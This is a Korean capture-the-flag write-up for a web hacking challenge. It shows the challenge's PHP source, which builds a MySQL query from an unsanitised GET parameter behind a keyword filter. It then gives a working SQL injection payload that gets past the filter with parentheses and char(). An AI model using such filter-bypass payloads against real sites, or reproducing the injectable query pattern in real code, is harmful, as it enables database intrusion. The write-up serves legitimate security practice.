





# 7

## 초기화면



---
## 풀이
auth 버튼을 클릭해보면 
 alert창이 뜬다.

url을 확인해보면 val값이 1인 것을 볼 수 있다. 이를 다른 값으로 바꿔본다. 

값이 2일때는 Access Denied

그 이외의 값은 query error가 뜬다. 

소스코드를 보면 php코드를 확인할 수 있다.
```php
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");

if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
// 필터링되는 문자들을 확인 할 수 있다.

$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
// rand 조건문은 쿼리값에 크게 영향을 주지 않는다.

$data=mysqli_fetch_array($result);

if(!$data[0]) { echo("query error"); exit(); }

if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
// 문제를 풀기위해서는 쿼리에 2값을 넘겨야 하는 듯..
?>
```

최종 페이로드는
`99)union(Select(char(50)))`

기본적으로는 union함수를 활용한다.

/s 즉 공백이 필터링되기 때문에 괄호로 처리한다

2도 필터링되기 때문에 char()함수를 활용하여 ascii값 50를 2로 변환한다.

---
## 통과



